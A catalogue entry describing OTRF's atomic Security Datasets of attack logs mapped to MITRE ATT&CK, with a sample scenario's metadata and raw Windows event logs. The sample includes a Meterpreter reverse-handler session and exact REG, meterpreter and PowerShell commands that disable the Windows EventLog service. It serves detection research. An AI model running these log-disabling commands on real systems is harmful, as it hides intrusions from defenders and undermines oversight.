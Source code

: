 ```yaml
---
title: OTFR Atomic Security Datasets
---
```


- [Overview](#overview)
- [Environment](#environment)
- [Activity](#activity)
- [Contained Data](#contained-data)
- [Links](#links)
- [Related Entries](#related-entries)
- [Data Examples](#data-examples)

| <!-- -->                 | <!-- -->                                                                      |
|--------------------------|-------------------------------------------------------------------------------|
| **Network Log Source**   | Packet captures, AWS CloudTrail                                               |
| **Network Logs Labeled** | "Yes", in the sense that only attack traffic is provided                      |
| **Host Log Source**      | Windows events, linux auditd                                                  |
| **Host Logs Labeled**    | "Yes", in the sense that only attack events are provided                      |
|                          |                                                                               |
| **Overall Setting**      | Single OS                                                                     |
| **OS Types**             | Windows<br/>Linux                                                             |
| **Number of Machines**   | n/a                                                                           |
| **Total Runtime**        | n/a                                                                           |
| **Year of Collection**   | 2019-2022                                                                     |
| **Attack Categories**    | Most of MITRE's Att&ck matrix                                                 |
| **User Emulation**       | No                                                                            |
|                          |                                                                               |
| **Packed Size**          | 125 MB                                                                        |
| **Unpacked Size**        | n/a                                                                           |
| **Download Link**        | [goto](https://github.com/OTRF/Security-Datasets/tree/master/datasets/atomic) |

***

### Overview

This is a subset of the Security Datasets Collection focusing on small datasets, each originating from a single attack
associated with a certain MITRE tactic and technique.
Due to their small granularity, all of these have been combined into a single entry here in this database.

### Environment

Details are provided per attack, though not all attacks provide the same amount of information.

### Activity

Details are provided per attack, though not all attacks provide the same amount of information.

### Contained Data

Content obviously differs between scenarios, and is generally divided into Windows, Linux, and AWS, though the vast
majority of data stems from Windows simulations.
For each of these groups, datasets are further divided depending on their corresponding tactic (execution, defense
evasion, etc.).
Finally, for each simulation, the following files exist

- A `yml` metadata file containing various information like attack and setup description
- Host and/or network log files, depending on scenario
    - Host logs come in the form of Windows events or linux audit logs as `.json` or `.log`, respectively
    - Network logs come in the form of packet captures or AWS CloudTrail logs as `.cap` or `.json`, respectively

It is not recommended to look through the metadata directly using the YAML file, the accompanying website picks this
information up and displays it in a nicer way (see example data below).
While the structure is consistent, the information that is actually presented is not - some for example describe the
specific victim and attacker OS used, others just don't.
None go into detail regarding any labeling, presumably expecting all logs to be considered malicious.

### Links

- [Homepage](https://securitydatasets.com/introduction.html)
- [GitHub](https://github.com/OTRF/Security-Datasets/tree/master/datasets/atomic)
- [AWS Datasets](https://securitydatasets.com/notebooks/atomic/aws/intro.html)
- [Linux Datasets](https://securitydatasets.com/notebooks/atomic/linux/intro.html)
- [Windows Datasets](https://securitydatasets.com/notebooks/atomic/windows/intro.html)

### Related Entries

- [OTFR Security Datasets](../collections/security_datasets.md)

### Data Examples

Metadata for the scenario "Stopping Event Log Service via Modification of Start Up Type" (
see [webpage](https://securitydatasets.com/notebooks/atomic/windows/defense_evasion/SDWIN-220708104215.html)).
Taken from `datasets/atomic/_metadata/SDWIN-220708104215.yaml`.

```yml
title: Stopping Event Log Service via Modification of Start Up Type
id: SDWIN-220708104215
contributors:
- Jose Rodriguez @Cyb3rPandaH
creation_date: 2022/07/08
modification_date: 2022/08/04
platform:
- Windows
type: atomic
tags:
- powershell
- reg
- cmd
- eventlog
description: After getting a shell with elevated privileges on the target, we modified the start up type for the EventLog service to `Disabled`. After the modification, we need to restart our system to make the EventLog service unavailable (Disabled). This data set contains only before-reboot data of our simulation. Even though after-reboot data is not part of the dataset, our attempt to disable the EventLog service was successful during the simulation. We have simulated this attack using 3 different procedures REG command via cmd.exe, REG meterpreter command (Metasploit), and the PowerShell module (Metasploit). This dataset was generated using a Windows 10 Pro Evaluation edition (Version:1903,OS Build:18362.30) and Kali Linux (Version:2022.2).
attack_mappings:
  - technique: T1562
    sub-technique: "002"
    tactics:
      - TA0005
notebooks:
files:
- type: Host
  link: https://raw.githubusercontent.com/OTRF/Security-Datasets/master/datasets/atomic/windows/defense_evasion/host/psh_disable_eventlog_service_startuptype_modification.zip
- type: Host
  link: https://raw.githubusercontent.com/OTRF/Security-Datasets/master/datasets/atomic/windows/defense_evasion/host/reg_disable_eventlog_service_startuptype_modification_via_registry.zip
- type: Host
  link: https://raw.githubusercontent.com/OTRF/Security-Datasets/master/datasets/atomic/windows/defense_evasion/host/cmd_disable_eventlog_service_startuptype_modification_via_registry.zip
simulation:
  environment: Lab VM
  tools:
    - type: Manual
      name: cmd
      module: cmd
      script: https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmd
    - type: Manual
      name: Metasploit
      module: reg
      script: https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/base/sessions/command_shell.rb
    - type: Manual
      name: Metasploit
      module: powershell
      script: https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/post/windows/powershell.rb
  permissions_required:
    - Administrator
  adversary_view: |-
    **** Using reg command via cmd.exe:
    
    msf6 exploit(multi/handler) > run 
    [*] Started HTTPS reverse handler on https://192.168.56.40:8443 
    [*] https://192.168.56.40:8443 handling request from 192.168.56.43; (UUID: jhdxsqpv) Staging x64 payload (201308 bytes) ... 
    [*] Meterpreter session 20 opened (192.168.56.40:8443 -> 127.0.0.1 ) at 2022-08-04 11:20:26 -0400 

    meterpreter > shell 
    Process 7728 created. 
    Channel 1 created. 
    Microsoft Windows [Version 10.0.18362.30] 
    (c) 2019 Microsoft Corporation. All rights reserved. 
    C:\Users\IT01-Pedro\Downloads>REG ADD HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\EventLog /t REG_DWORD /v Start /d 4
    REG ADD HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\EventLog /t REG_DWORD /v Start /d 4 
    Value Start exists, overwrite(Yes/No)? yes 
    The operation completed successfully. 
    C:\Users\IT01-Pedro\Downloads>

    **** Using reg meterpreter command:
    
    msf6 exploit(multi/handler) > run 
    [*] Started HTTPS reverse handler on https://192.168.56.40:8443 
    [*] https://192.168.56.40:8443 handling request from 192.168.56.43; (UUID: r64afjpx) Staging x64 payload (201308 bytes) ... 
    [*] Meterpreter session 19 opened (192.168.56.40:8443 -> 127.0.0.1 ) at 2022-08-04 10:50:58 -0400 

    meterpreter > reg setval -k 'HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\EventLog' -v 'Start' -t 'REG_DWORD' -d 4 
    Successfully set Start of REG_DWORD. 
    meterpreter >

    **** Using PowerShell module:

    msf6 exploit(multi/handler) > run 
    [*] Started HTTPS reverse handler on https://192.168.56.40:8443 
    [*] https://192.168.56.40:8443 handling request from 192.168.56.43; (UUID: bgwdtwdi) Staging x64 payload (201308 bytes) ... 
    [*] Meterpreter session 21 opened (192.168.56.40:8443 -> 127.0.0.1 ) at 2022-08-04 11:36:38 -0400 

    meterpreter > load powershell 
    Loading extension powershell...Success. 
    meterpreter > powershell_execute "Set-Service -Name EventLog -StartUpType Disabled" 
    [+] Command execution completed: 
    meterpreter >
references:
- https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/set-service?view=powershell-7.2
- https://www.offensive-security.com/metasploit-unleashed/interacting-registry/
- https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg
```

Snippet of Windows event logs corresponding to the entry above, taken
from `datasets/atomic/windows/defense_evasion/host /psh_disable_eventlog_service_startuptype_modification.json`.

```json
{"SourceName":"Microsoft-Windows-Security-Auditing","ProviderGuid":"{54849625-5478-4994-a5ba-3e3b0328c30d}","Level":"0","Keywords":"0x8020000000000000","Channel":"Security","Hostname":"Pedro01","TimeCreated":"2022-08-04T08:37:04.983Z","@timestamp":"2022-08-04T08:37:04.983Z","EventID":4663,"Message":"An attempt was made to access an object.\r\n\r\nSubject:\r\n\tSecurity ID:\t\tS-1-5-19\r\n\tAccount Name:\t\tLOCAL SERVICE\r\n\tAccount Domain:\t\tNT AUTHORITY\r\n\tLogon ID:\t\t0x3E5\r\n\r\nObject:\r\n\tObject Server:\t\tSecurity\r\n\tObject Type:\t\tKey\r\n\tObject Name:\t\t\\REGISTRY\\MACHINE\\SYSTEM\\ControlSet001\\Control\\WMI\\Autologger\\EventLog-Application\\{2a45d52e-bbf3-4843-8e18-b356ed5f6a65}\r\n\tHandle ID:\t\t0x274\r\n\tResource Attributes:\t-\r\n\r\nProcess Information:\r\n\tProcess ID:\t\t0x4c4\r\n\tProcess Name:\t\tC:\\Windows\\System32\\svchost.exe\r\n\r\nAccess Request Information:\r\n\tAccesses:\t\tSet key value\r\n\t\t\t\t\r\n\tAccess Mask:\t\t0x2","Task":"12801","SubjectUserSid":"S-1-5-19","SubjectUserName":"LOCAL SERVICE","SubjectDomainName":"NT AUTHORITY","SubjectLogonId":"0x3e5","ObjectServer":"Security","ObjectType":"Key","ObjectName":"\\REGISTRY\\MACHINE\\SYSTEM\\ControlSet001\\Control\\WMI\\Autologger\\EventLog-Application\\{2a45d52e-bbf3-4843-8e18-b356ed5f6a65}","HandleId":"0x274","AccessList":"%%4433\n\t\t\t\t","AccessMask":"0x2","ProcessId":"0x4c4","ProcessName":"C:\\Windows\\System32\\svchost.exe","ResourceAttributes":"-"}
{"SourceName":"Microsoft-Windows-Security-Auditing","ProviderGuid":"{54849625-5478-4994-a5ba-3e3b0328c30d}","Level":"0","Keywords":"0x8020000000000000","Channel":"Security","Hostname":"Pedro01","TimeCreated":"2022-08-04T08:37:04.984Z","@timestamp":"2022-08-04T08:37:04.984Z","EventID":4658,"Message":"The handle to an object was closed.\r\n\r\nSubject :\r\n\tSecurity ID:\t\tS-1-5-19\r\n\tAccount Name:\t\tLOCAL SERVICE\r\n\tAccount Domain:\t\tNT AUTHORITY\r\n\tLogon ID:\t\t0x3E5\r\n\r\nObject:\r\n\tObject Server:\t\tSecurity\r\n\tHandle ID:\t\t0x274\r\n\r\nProcess Information:\r\n\tProcess ID:\t\t0x4c4\r\n\tProcess Name:\t\tC:\\Windows\\System32\\svchost.exe","Task":"12801","SubjectUserSid":"S-1-5-19","SubjectUserName":"LOCAL SERVICE","SubjectDomainName":"NT AUTHORITY","SubjectLogonId":"0x3e5","ObjectServer":"Security","HandleId":"0x274","ProcessId":"0x4c4","ProcessName":"C:\\Windows\\System32\\svchost.exe"}
{"SourceName":"Microsoft-Windows-Security-Auditing","ProviderGuid":"{54849625-5478-4994-a5ba-3e3b0328c30d}","Level":"0","Keywords":"0x8020000000000000","Channel":"Security","Hostname":"Pedro01","TimeCreated":"2022-08-04T08:37:05.006Z","@timestamp":"2022-08-04T08:37:05.006Z","EventID":4690,"Message":"An attempt was made to duplicate a handle to an object.\r\n\r\nSubject:\r\n\tSecurity ID:\t\tS-1-5-19\r\n\tAccount Name:\t\tLOCAL SERVICE\r\n\tAccount Domain:\t\tNT AUTHORITY\r\n\tLogon ID:\t\t0x3E5\r\n\r\nSource Handle Information:\r\n\tSource Handle ID:\t0x274\r\n\tSource Process ID:\t0x4c4\r\n\r\nNew Handle Information:\r\n\tTarget Handle ID:\t0x35b8\r\n\tTarget Process ID:\t0x4","Task":"12807","SubjectUserSid":"S-1-5-19","SubjectUserName":"LOCAL SERVICE","SubjectDomainName":"NT AUTHORITY","SubjectLogonId":"0x3e5","SourceHandleId":"0x274","SourceProcessId":"0x4c4","TargetHandleId":"0x35b8","TargetProcessId":"0x4"}
{"SourceName":"Microsoft-Windows-Security-Auditing","ProviderGuid":"{54849625-5478-4994-a5ba-3e3b0328c30d}","Level":"0","Keywords":"0x8020000000000000","Channel":"Security","Hostname":"Pedro01","TimeCreated":"2022-08-04T08:37:05.006Z","@timestamp":"2022-08-04T08:37:05.006Z","EventID":4658,"Message":"The handle to an object was closed.\r\n\r\nSubject :\r\n\tSecurity ID:\t\tS-1-5-19\r\n\tAccount Name:\t\tLOCAL SERVICE\r\n\tAccount Domain:\t\tNT AUTHORITY\r\n\tLogon ID:\t\t0x3E5\r\n\r\nObject:\r\n\tObject Server:\t\tSecurity\r\n\tHandle ID:\t\t0x35b8\r\n\r\nProcess Information:\r\n\tProcess ID:\t\t0x4c4\r\n\tProcess Name:\t\tC:\\Windows\\System32\\svchost.exe","Task":"12801","SubjectUserSid":"S-1-5-19","SubjectUserName":"LOCAL SERVICE","SubjectDomainName":"NT AUTHORITY","SubjectLogonId":"0x3e5","ObjectServer":"Security","HandleId":"0x35b8","ProcessId":"0x4c4","ProcessName":"C:\\Windows\\System32\\svchost.exe"}
{"SourceName":"Microsoft-Windows-Security-Auditing","ProviderGuid":"{54849625-5478-4994-a5ba-3e3b0328c30d}","Level":"0","Keywords":"0x8020000000000000","Channel":"Security","Hostname":"Pedro01","TimeCreated":"2022-08-04T08:37:05.006Z","@timestamp":"2022-08-04T08:37:05.006Z","EventID":4656,"Message":"A handle to an object was requested.\r\n\r\nSubject:\r\n\tSecurity ID:\t\tS-1-5-19\r\n\tAccount Name:\t\tLOCAL SERVICE\r\n\tAccount Domain:\t\tNT AUTHORITY\r\n\tLogon ID:\t\t0x3E5\r\n\r\nObject:\r\n\tObject Server:\t\tSecurity\r\n\tObject Type:\t\tKey\r\n\tObject Name:\t\t\\REGISTRY\\MACHINE\\SYSTEM\\ControlSet001\\Control\\WMI\\Autologger\\EventLog-Application\r\n\tHandle ID:\t\t0x274\r\n\tResource Attributes:\t-\r\n\r\nProcess Information:\r\n\tProcess ID:\t\t0x4c4\r\n\tProcess Name:\t\tC:\\Windows\\System32\\svchost.exe\r\n\r\nAccess Request Information:\r\n\tTransaction ID:\t\t{00000000-0000-0000-0000-000000000000}\r\n\tAccesses:\t\tREAD_CONTROL\r\n\t\t\t\tQuery key value\r\n\t\t\t\tSet key value\r\n\t\t\t\tCreate sub-key\r\n\t\t\t\tEnumerate sub-keys\r\n\t\t\t\tNotify about changes to keys\r\n\t\t\t\t\r\n\tAccess Reasons:\t\t-\r\n\tAccess Mask:\t\t0x2001F\r\n\tPrivileges Used for Access Check:\t-\r\n\tRestricted SID Count:\t0","Task":"12801","SubjectUserSid":"S-1-5-19","SubjectUserName":"LOCAL SERVICE","SubjectDomainName":"NT AUTHORITY","SubjectLogonId":"0x3e5","ObjectServer":"Security","ObjectType":"Key","ObjectName":"\\REGISTRY\\MACHINE\\SYSTEM\\ControlSet001\\Control\\WMI\\Autologger\\EventLog-Application","HandleId":"0x274","TransactionId":"{00000000-0000-0000-0000-000000000000}","AccessList":"%%1538\n\t\t\t\t%%4432\n\t\t\t\t%%4433\n\t\t\t\t%%4434\n\t\t\t\t%%4435\n\t\t\t\t%%4436\n\t\t\t\t","AccessReason":"-","AccessMask":"0x2001f","PrivilegeList":"-","RestrictedSidCount":"0","ProcessId":"0x4c4","ProcessName":"C:\\Windows\\System32\\svchost.exe","ResourceAttributes":"-"}
{"SourceName":"Microsoft-Windows-Security-Auditing","ProviderGuid":"{54849625-5478-4994-a5ba-3e3b0328c30d}","Level":"0","Keywords":"0x8020000000000000","Channel":"Security","Hostname":"Pedro01","TimeCreated":"2022-08-04T08:37:05.006Z","@timestamp":"2022-08-04T08:37:05.006Z","EventID":4663,"Message":"An attempt was made to access an object.\r\n\r\nSubject:\r\n\tSecurity ID:\t\tS-1-5-19\r\n\tAccount Name:\t\tLOCAL SERVICE\r\n\tAccount Domain:\t\tNT AUTHORITY\r\n\tLogon ID:\t\t0x3E5\r\n\r\nObject:\r\n\tObject Server:\t\tSecurity\r\n\tObject Type:\t\tKey\r\n\tObject Name:\t\t\\REGISTRY\\MACHINE\\SYSTEM\\ControlSet001\\Control\\WMI\\Autologger\\EventLog-Application\r\n\tHandle ID:\t\t0x274\r\n\tResource Attributes:\t-\r\n\r\nProcess Information:\r\n\tProcess ID:\t\t0x4c4\r\n\tProcess Name:\t\tC:\\Windows\\System32\\svchost.exe\r\n\r\nAccess Request Information:\r\n\tAccesses:\t\tSet key value\r\n\t\t\t\t\r\n\tAccess Mask:\t\t0x2","Task":"12801","SubjectUserSid":"S-1-5-19","SubjectUserName":"LOCAL SERVICE","SubjectDomainName":"NT AUTHORITY","SubjectLogonId":"0x3e5","ObjectServer":"Security","ObjectType":"Key","ObjectName":"\\REGISTRY\\MACHINE\\SYSTEM\\ControlSet001\\Control\\WMI\\Autologger\\EventLog-Application","HandleId":"0x274","AccessList":"%%4433\n\t\t\t\t","AccessMask":"0x2","ProcessId":"0x4c4","ProcessName":"C:\\Windows\\System32\\svchost.exe","ResourceAttributes":"-"}
{"SourceName":"Microsoft-Windows-Security-Auditing","ProviderGuid":"{54849625-5478-4994-a5ba-3e3b0328c30d}","Level":"0","Keywords":"0x8020000000000000","Channel":"Security","Hostname":"Pedro01","TimeCreated":"2022-08-04T08:37:05.008Z","@timestamp":"2022-08-04T08:37:05.008Z","EventID":4658,"Message":"The handle to an object was closed.\r\n\r\nSubject :\r\n\tSecurity ID:\t\tS-1-5-19\r\n\tAccount Name:\t\tLOCAL SERVICE\r\n\tAccount Domain:\t\tNT AUTHORITY\r\n\tLogon ID:\t\t0x3E5\r\n\r\nObject:\r\n\tObject Server:\t\tSecurity\r\n\tHandle ID:\t\t0x274\r\n\r\nProcess Information:\r\n\tProcess ID:\t\t0x4c4\r\n\tProcess Name:\t\tC:\\Windows\\System32\\svchost.exe","Task":"12801","SubjectUserSid":"S-1-5-19","SubjectUserName":"LOCAL SERVICE","SubjectDomainName":"NT AUTHORITY","SubjectLogonId":"0x3e5","ObjectServer":"Security","HandleId":"0x274","ProcessId":"0x4c4","ProcessName":"C:\\Windows\\System32\\svchost.exe"}
{"SourceName":"Microsoft-Windows-Security-Auditing","ProviderGuid":"{54849625-5478-4994-a5ba-3e3b0328c30d}","Level":"0","Keywords":"0x8020000000000000","Channel":"Security","Hostname":"Pedro01","TimeCreated":"2022-08-04T08:37:05.013Z","@timestamp":"2022-08-04T08:37:05.013Z","EventID":4658,"Message":"The handle to an object was closed.\r\n\r\nSubject :\r\n\tSecurity ID:\t\tS-1-5-19\r\n\tAccount Name:\t\tLOCAL SERVICE\r\n\tAccount Domain:\t\tNT AUTHORITY\r\n\tLogon ID:\t\t0x3E5\r\n\r\nObject:\r\n\tObject Server:\t\tSecurity\r\n\tHandle ID:\t\t0xd30\r\n\r\nProcess Information:\r\n\tProcess ID:\t\t0x4c4\r\n\tProcess Name:\t\tC:\\Windows\\System32\\svchost.exe","Task":"12801","SubjectUserSid":"S-1-5-19","SubjectUserName":"LOCAL SERVICE","SubjectDomainName":"NT AUTHORITY","SubjectLogonId":"0x3e5","ObjectServer":"Security","HandleId":"0xd30","ProcessId":"0x4c4","ProcessName":"C:\\Windows\\System32\\svchost.exe"}
{"SourceName":"Microsoft-Windows-Security-Auditing","ProviderGuid":"{54849625-5478-4994-a5ba-3e3b0328c30d}","Level":"0","Keywords":"0x8020000000000000","Channel":"Security","Hostname":"Pedro01","TimeCreated":"2022-08-04T08:37:11.530Z","@timestamp":"2022-08-04T08:37:11.530Z","EventID":4689,"Message":"A process has exited.\r\n\r\nSubject:\r\n\tSecurity ID:\t\tS-1-5-21-968647429-258479840-2507984072-1002\r\n\tAccount Name:\t\tIT01-Pedro\r\n\tAccount Domain:\t\tPEDRO01\r\n\tLogon ID:\t\t0x3673C\r\n\r\nProcess Information:\r\n\tProcess ID:\t0xa1c\r\n\tProcess Name:\tC:\\Windows\\System32\\backgroundTaskHost.exe\r\n\tExit Status:\t0x1","Task":"13313","SubjectUserSid":"S-1-5-21-968647429-258479840-2507984072-1002","SubjectUserName":"IT01-Pedro","SubjectDomainName":"PEDRO01","SubjectLogonId":"0x3673c","Status":"0x1","ProcessId":"0xa1c","ProcessName":"C:\\Windows\\System32\\backgroundTaskHost.exe"}
{"SourceName":"Microsoft-Windows-Sysmon","ProviderGuid":"{5770385f-c22a-43e0-bf4c-06f5698ffbd9}","Level":"4","Keywords":"0x8000000000000000","Channel":"Microsoft-Windows-Sysmon/Operational","Hostname":"Pedro01","TimeCreated":"2022-08-04T08:36:14.593Z","@timestamp":"2022-08-04T08:36:14.593Z","EventID":26,"Message":"File Delete logged:\r\nRuleName: -\r\nUtcTime: 2022-08-04 15:36:14.587\r\nProcessGuid: {625b42a0-4109-62e9-2600-000000000900}\r\nProcessId: 1408\r\nUser: NT AUTHORITY\\SYSTEM\r\nImage: C:\\Windows\\system32\\svchost.exe\r\nTargetFilename: C:\\Windows\\Prefetch\\SPPEXTCOMOBJ.EXE-BB03B3D6.pf\r\nHashes: SHA1=0E60B9DC43FD335F50E163573D8E700897184CC2,MD5=40F3175D55D34290D443EAD9F7BC763F,SHA256=717DB59D8D9F3606F839003A8B22750B80C39E4BF56E97D189839A34CEEDE49C,IMPHASH=00000000000000000000000000000000\r\nIsExecutable: false","Task":"26","RuleName":"-","UtcTime":"2022-08-04 15:36:14.587","ProcessGuid":"{625b42a0-4109-62e9-2600-000000000900}","ProcessId":"1408","User":"NT AUTHORITY\\SYSTEM","Image":"C:\\Windows\\system32\\svchost.exe","TargetFilename":"C:\\Windows\\Prefetch\\SPPEXTCOMOBJ.EXE-BB03B3D6.pf","Hashes":"SHA1=0E60B9DC43FD335F50E163573D8E700897184CC2,MD5=40F3175D55D34290D443EAD9F7BC763F,SHA256=717DB59D8D9F3606F839003A8B22750B80C39E4BF56E97D189839A34CEEDE49C,IMPHASH=00000000000000000000000000000000","IsExecutable":"false"}
{"SourceName":"Microsoft-Windows-Sysmon","ProviderGuid":"{5770385f-c22a-43e0-bf4c-06f5698ffbd9}","Level":"4","Keywords":"0x8000000000000000","Channel":"Microsoft-Windows-Sysmon/Operational","Hostname":"Pedro01","TimeCreated":"2022-08-04T08:36:14.594Z","@timestamp":"2022-08-04T08:36:14.594Z","EventID":11,"Message":"File created:\r\nRuleName: -\r\nUtcTime: 2022-08-04 15:36:14.587\r\nProcessGuid: {625b42a0-4109-62e9-2600-000000000900}\r\nProcessId: 1408\r\nImage: C:\\Windows\\system32\\svchost.exe\r\nTargetFilename: C:\\Windows\\Prefetch\\SPPEXTCOMOBJ.EXE-BB03B3D6.pf\r\nCreationUtcTime: 2022-07-29 05:08:44.061\r\nUser: NT AUTHORITY\\SYSTEM","Task":"11","RuleName":"-","UtcTime":"2022-08-04 15:36:14.587","ProcessGuid":"{625b42a0-4109-62e9-2600-000000000900}","ProcessId":"1408","Image":"C:\\Windows\\system32\\svchost.exe","TargetFilename":"C:\\Windows\\Prefetch\\SPPEXTCOMOBJ.EXE-BB03B3D6.pf","CreationUtcTime":"2022-07-29 05:08:44.061","User":"NT AUTHORITY\\SYSTEM"}
{"SourceName":"Microsoft-Windows-Sysmon","ProviderGuid":"{5770385f-c22a-43e0-bf4c-06f5698ffbd9}","Level":"4","Keywords":"0x8000000000000000","Channel":"Microsoft-Windows-Sysmon/Operational","Hostname":"Pedro01","TimeCreated":"2022-08-04T08:36:15.184Z","@timestamp":"2022-08-04T08:36:15.184Z","EventID":10,"Message":"Process accessed:\r\nRuleName: -\r\nUtcTime: 2022-08-04 15:36:15.091\r\nSourceProcessGUID: {625b42a0-6b35-62e9-1200-000000000900}\r\nSourceProcessId: 888\r\nSourceThreadId: 3696\r\nSourceImage: C:\\Windows\\system32\\svchost.exe\r\nTargetProcessGUID: {625b42a0-4111-62e9-4600-000000000900}\r\nTargetProcessId: 2696\r\nTargetImage: C:\\Windows\\System32\\svchost.exe\r\nGrantedAccess: 0x1000\r\nCallTrace: C:\\Windows\\SYSTEM32\\ntdll.dll+9c524|C:\\Windows\\System32\\KERNELBASE.dll+6a685|c:\\windows\\system32\\lsm.dll+10225|C:\\Windows\\System32\\RPCRT4.dll+76963|C:\\Windows\\System32\\RPCRT4.dll+da036|C:\\Windows\\System32\\RPCRT4.dll+37a5c|C:\\Windows\\System32\\RPCRT4.dll+548d8|C:\\Windows\\System32\\RPCRT4.dll+2c931|C:\\Windows\\System32\\RPCRT4.dll+2c1eb|C:\\Windows\\System32\\RPCRT4.dll+1a86f|C:\\Windows\\System32\\RPCRT4.dll+19d1a|C:\\Windows\\System32\\RPCRT4.dll+19301|C:\\Windows\\System32\\RPCRT4.dll+18d6e|C:\\Windows\\System32\\RPCRT4.dll+169a5|C:\\Windows\\SYSTEM32\\ntdll.dll+333fd|C:\\Windows\\SYSTEM32\\ntdll.dll+34152|C:\\Windows\\System32\\KERNEL32.DLL+17944|C:\\Windows\\SYSTEM32\\ntdll.dll+6ce71\r\nSourceUser: NT AUTHORITY\\SYSTEM\r\nTargetUser: NT AUTHORITY\\LOCAL SERVICE","Task":"10","RuleName":"-","UtcTime":"2022-08-04 15:36:15.091","SourceProcessGUID":"{625b42a0-6b35-62e9-1200-000000000900}","SourceProcessId":"888","SourceThreadId":"3696","SourceImage":"C:\\Windows\\system32\\svchost.exe","TargetProcessGUID":"{625b42a0-4111-62e9-4600-000000000900}","TargetProcessId":"2696","TargetImage":"C:\\Windows\\System32\\svchost.exe","GrantedAccess":"0x1000","CallTrace":"C:\\Windows\\SYSTEM32\\ntdll.dll+9c524|C:\\Windows\\System32\\KERNELBASE.dll+6a685|c:\\windows\\system32\\lsm.dll+10225|C:\\Windows\\System32\\RPCRT4.dll+76963|C:\\Windows\\System32\\RPCRT4.dll+da036|C:\\Windows\\System32\\RPCRT4.dll+37a5c|C:\\Windows\\System32\\RPCRT4.dll+548d8|C:\\Windows\\System32\\RPCRT4.dll+2c931|C:\\Windows\\System32\\RPCRT4.dll+2c1eb|C:\\Windows\\System32\\RPCRT4.dll+1a86f|C:\\Windows\\System32\\RPCRT4.dll+19d1a|C:\\Windows\\System32\\RPCRT4.dll+19301|C:\\Windows\\System32\\RPCRT4.dll+18d6e|C:\\Windows\\System32\\RPCRT4.dll+169a5|C:\\Windows\\SYSTEM32\\ntdll.dll+333fd|C:\\Windows\\SYSTEM32\\ntdll.dll+34152|C:\\Windows\\System32\\KERNEL32.DLL+17944|C:\\Windows\\SYSTEM32\\ntdll.dll+6ce71","SourceUser":"NT AUTHORITY\\SYSTEM","TargetUser":"NT AUTHORITY\\LOCAL SERVICE"}
{"SourceName":"Microsoft-Windows-Sysmon","ProviderGuid":"{5770385f-c22a-43e0-bf4c-06f5698ffbd9}","Level":"4","Keywords":"0x8000000000000000","Channel":"Microsoft-Windows-Sysmon/Operational","Hostname":"Pedro01","TimeCreated":"2022-08-04T08:36:15.184Z","@timestamp":"2022-08-04T08:36:15.184Z","EventID":10,"Message":"Process accessed:\r\nRuleName: -\r\nUtcTime: 2022-08-04 15:36:15.091\r\nSourceProcessGUID: {625b42a0-6b35-62e9-1200-000000000900}\r\nSourceProcessId: 888\r\nSourceThreadId: 3696\r\nSourceImage: C:\\Windows\\system32\\svchost.exe\r\nTargetProcessGUID: {625b42a0-4111-62e9-4600-000000000900}\r\nTargetProcessId: 2696\r\nTargetImage: C:\\Windows\\System32\\svchost.exe\r\nGrantedAccess: 0x1000\r\nCallTrace: C:\\Windows\\SYSTEM32\\ntdll.dll+9c524|C:\\Windows\\System32\\KERNELBASE.dll+6a685|c:\\windows\\system32\\lsm.dll+108a0|C:\\Windows\\System32\\RPCRT4.dll+76963|C:\\Windows\\System32\\RPCRT4.dll+da036|C:\\Windows\\System32\\RPCRT4.dll+37a5c|C:\\Windows\\System32\\RPCRT4.dll+548d8|C:\\Windows\\System32\\RPCRT4.dll+2c931|C:\\Windows\\System32\\RPCRT4.dll+2c1eb|C:\\Windows\\System32\\RPCRT4.dll+1a86f|C:\\Windows\\System32\\RPCRT4.dll+19d1a|C:\\Windows\\System32\\RPCRT4.dll+19301|C:\\Windows\\System32\\RPCRT4.dll+18d6e|C:\\Windows\\System32\\RPCRT4.dll+169a5|C:\\Windows\\SYSTEM32\\ntdll.dll+333fd|C:\\Windows\\SYSTEM32\\ntdll.dll+34152|C:\\Windows\\System32\\KERNEL32.DLL+17944|C:\\Windows\\SYSTEM32\\ntdll.dll+6ce71\r\nSourceUser: NT AUTHORITY\\SYSTEM\r\nTargetUser: NT AUTHORITY\\LOCAL SERVICE","Task":"10","RuleName":"-","UtcTime":"2022-08-04 